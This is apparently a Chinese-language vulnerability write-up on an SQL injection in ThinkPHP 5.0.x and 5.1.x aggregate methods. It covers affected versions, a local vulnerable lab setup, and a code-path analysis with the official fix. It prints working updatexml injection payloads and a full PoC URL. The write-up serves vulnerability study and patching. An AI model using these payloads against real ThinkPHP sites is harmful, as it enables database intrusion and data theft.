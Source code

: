 ```yaml
---
title: "5.0.0 <= Thinkphp <= 5.0.21 sql注入漏洞"
id: zhfly3163
---
```


# 5.0.0 <= Thinkphp <= 5.0.21 & 5.1.3<=ThinkPHP5<=5.1.25

## 一、漏洞简介

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（所有 **Mysql** 聚合函数相关方法均存在注入）。本次漏洞存在于所有 **Mysql** 聚合函数相关方法。由于程序没有对数据进行很好的过滤，直接将数据拼接进 **SQL** 语句，最终导致 **SQL注入漏洞** 的产生。

## 漏洞概要

## 二、漏洞影响

5.0.0<=ThinkPHP<=5.0.21

5.1.3<=ThinkPHP5<=5.1.25

## 三、复现过程

不同版本 **payload** 需稍作调整：

 **5.0.0~5.0.21** 、 **5.1.3～5.1.10** ：

```
id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23 
```

**5.1.11～5.1.25** ：

```
id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23 
```

## 漏洞环境

通过以下命令获取测试环境代码：

```
composer create-project --prefer-dist topthink/think=5.1.25 tpdemo 
```

将 **composer.json** 文件的 **require** 字段设置成如下：

```
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.25"
}, 
```

然后执行 `composer update` ，并将 **application/index/controller/Index.php** 文件代码设置如下：

```
<?php
namespace app\index\controller; `class Index

{

public function index()

{

$options = request()->get(‘options’);

$result = db(‘users’)->max($options);

var_dump($result);

}

}` 
```

在 **config/database.php** 文件中配置数据库相关信息，并开启 **config/app.php** 中的 **app_debug** 和 **app_trace** 。创建数据库信息如下：

```
create database tpdemo;
use tpdemo;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
);
insert into users(id,username) values(1,'Mochazz');
insert into users(id,username) values(2,'Jerry');
insert into users(id,username) values(3,'Kitty'); 
```

### poc

```
http://localhost:8000/index/index/index?options=id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23 
```

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app_debug** 是无法看到 **SQL** 报错信息的）

![1.png](../img/fe2ee76d62c986a9a764b54fa0acbc48.png)

### 漏洞分析

首先在官方发布的 **5.1.26** 版本更新说明中，发现其中提到该版本包含了一个安全更新。

![2.png](../img/6fbca03c24d6aa353950a6e0c2b7da5d.png)

我们可以查阅其 **commit** 记录，发现其改进了数据库驱动，代码中多了检测特殊字符的片段。接下来我们直接来分析代码。

![3.png](../img/a5bd25de04e10283cbcfe09f76969df9.png)

首先，用户可控数据未经过滤，传入 **Query** 类的 **max** 方法进行聚合查询语句构造，接着调用本类的 **aggregate** 方法。本次漏洞问题正是发生在该函数底层代码中，所以所有调用该方法的聚合方法均存在 **SQL注入** 问题。我们看到 **aggregate** 方法又调用了 **Mysql** 类的 **aggregate** 方法，在该方法中，我们可以明显看到程序将用户可控变量 **$field** ，经过 **parseKey** 方法处理后，与 **SQL** 语句进行了拼接。下面我们就来具体看看 **parseKey** 方法。

![4.png](../img/1b85d402dfa6e43eb4fbcbc678b361b8.png)

**parseKey** 方法主要是对字段和表名进行处理，这里只是对我们的数据两端都添加了反引号。经过 **parseKey** 方法处理后，程序又回到了上图的 **$this->value()** 方法中，该方法会调用 **Builder** 类的 **select** 方法来构造 **SQL** 语句。这个方法应该说是在分析 **ThinkPHP** 漏洞时，非常常见的了。其无非就是使用 **str_replace** 方法，将变量替换到 **SQL** 语句模板中。这里，我们重点关注 **parseField** 方法，因为用户可控数据存储在 **$options['field']** 变量中并被传入该方法。

![5.png](../img/f9ae84bc26afd514464361ccf7e65fc1.png)

进入 **parseField** 方法，我们发现用户可控数据只是经过 **parseKey** 方法处理，并不影响数据，然后直接用逗号拼接，最终直接替换进 **SQL** 语句模板里，导致 **SQL注入漏洞** 的发生

![6.png](../img/f7adbd38409f75caa9cc80a7452c15b3.png)

### 漏洞修复

官方的修复方法是：当匹配到除了 **字母、点号、星号** 以外的字符时，就抛出异常。

![3.png](../img/a5bd25de04e10283cbcfe09f76969df9.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![7.png](../img/8892565b850eadb38334273b576349a5.png)

## 参考链接

> https://github.com/Mochazz/ThinkPHP-Vuln